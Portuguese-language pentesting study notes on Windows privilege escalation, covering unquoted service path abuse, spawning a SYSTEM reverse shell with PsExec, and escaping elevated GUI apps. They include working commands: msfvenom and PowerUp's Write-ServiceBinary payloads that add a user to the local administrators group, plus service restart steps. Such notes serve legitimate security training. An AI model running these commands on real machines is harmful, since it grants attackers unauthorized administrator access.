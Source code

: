 
## Unquoted Service Path

- Abusando de service paths que tem um path sem aspas e com espaços
- Da pra identificar pelo powerup
- Tem que colocar o arquivo no mesmo lugar que o executável original e depois startar o sistema
- No exemplo: `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`, o Windows tentará achar um executável em `Program.exe; Unquoted.exe; Common.exe`, por conta dos espaços ele acha que o que vem a seguir é o argumento de um binário. Tipo rodar `whoami` em vez de `whoami.exe`
- É mais comom esquever depois do program files, por conta das permissões de usuário comum

![[Pasted image 20230209180326.png]]

```
sc qc <serviço>

accesschk.exe /accepteula -uwdq <Path>
# Usar em todos os caminhos do unquoted service Path, para saber onde tem permissão de escrever

# Abuse
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
Write-ServiceBinary -Name 'service' -Path <HijackPatch> (will add john:Password123!)
Write-ServiceBinary -Name 'service' -Path C:\WebServer\Abyss.exe -Command "net localgroup Administrators user /add"

# Restart Service (cmd)
sc stop service
sc start service
net start service

```


___

# Spawning a shell

```
.\PsExec64 -accepteula -i -s C:\Privesc\reverse.exe
# Onde reverse.exe é uma revshell gerada por msfvenom
```


___

# Insecure GUI Apps

- É possível que alguns aplicativos ou atalhos para aplicativos esteja rodando com priv administrativo. Se tiver algo suspeito e tiver acesso RDP, é possível fazer `tasklist /V | findstr <app.exe>`
- Se tiver como admin, usar o file > open, para executar `file://c:/windows/system32/cmd.exe`

___

# Installed Apps

```
seatbelt.exe NonstandardProcesses
# Procurar executáveis que não sao comuns

# winPEAS também encontra esses apps incomuns
# Usar o Exploitdb para procurar por exploits para estes processos
```
